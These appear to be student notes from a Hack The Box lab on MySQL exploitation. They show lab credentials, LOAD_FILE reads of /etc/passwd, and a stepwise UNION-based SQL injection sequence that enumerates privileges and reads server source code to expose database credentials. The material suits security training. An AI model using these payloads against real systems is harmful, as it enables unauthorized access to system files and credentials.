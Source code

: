 #### Read/Change the Database
#### MySQL - Connecting to the SQL Server

```bash
Yashfren@htb[/htb]$ mysql -u julio -pPassword123 -h 10.129.20.13

Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
## Read Local Files

As we previously mentioned, by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

#### MySQL - Read Local Files in MySQL

```bash
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```
# Reading Files via SQL Injection

SQL Injection can be extended to read/write files on the server or even achieve remote code execution, depending on privileges.
### Privilege Discovery

#### Step 1: Identify DB User

To check which user the DBMS is running as:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
-- OR --
cn' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -
```

Output:

```
root@localhost, 3, 4
```
#### Step 2: Check for Super Privileges

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Output:

```
Y (indicating superuser)
```
#### Step 3: Enumerate All Privileges

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Output includes:

```
SELECT, INSERT, UPDATE, FILE, ...
```

The presence of `FILE` privilege allows file reading/writing.
### Reading Files Using `LOAD_FILE()`

If `FILE` privilege is available, read local files:

```sql
cn' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```

Output:

```
root:x:0:0:root:/root:/bin/bash, daemon:x:1:1:... etc.
```
### Reading Source Code

Try reading the PHP source:

```sql
cn' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4-- -
```

Since HTML is rendered, use browser's [Ctrl + U] to view actual code.

Sample source code reveals:

- SQL query construction
- DB credentials   
- Vulnerable logic

> Always remember: File read vulnerabilities can lead to severe compromise including credential leakage and full RCE when write access is available.
# Tags
> #Exploitation #Service-Exploitation #MySQL